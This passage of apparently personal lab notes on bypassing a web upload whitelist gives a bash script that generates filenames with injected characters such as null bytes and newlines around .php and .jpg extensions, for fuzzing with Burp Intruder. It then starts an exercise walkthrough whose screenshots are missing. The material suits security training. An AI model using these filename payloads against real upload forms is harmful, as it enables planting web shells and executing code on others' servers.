 We can write a small bash script that generates all permutations of the file name, where the above characters would be injected before and after both the `PHP` and `JPG` extensions, as follows:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

With this custom wordlist, we can run a fuzzing scan with `Burp Intruder`, similar to the ones we did earlier. If either the back-end or the web server is outdated or has certain misconfigurations, some of the generated filenames may bypass the whitelist test and execute PHP code.

**Exercise:** Try to add more PHP extensions to the above script to generate more filename permutations, then fuzz the upload functionality with the generated wordlist to see which of the generated file names can be uploaded, and which may execute PHP code after being uploaded.

## Question

***

![](Pasted%20image%2020250206154129.png)

We can begin by checking the website:

![](Pasted%20image%2020250206154226.png)

If we try uploading a `.php` file, we see the following:

![](Pasted%20image%2020250206154300.png)

We can only upload images, let's upload an image and modify the request:

![](Pasted%20image%2020250206154432.png)

Extension is not allowed, we can try fuzzing again, we can generate our wordlist with the following bash script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

![](Pasted%20image%2020250206154754.png)
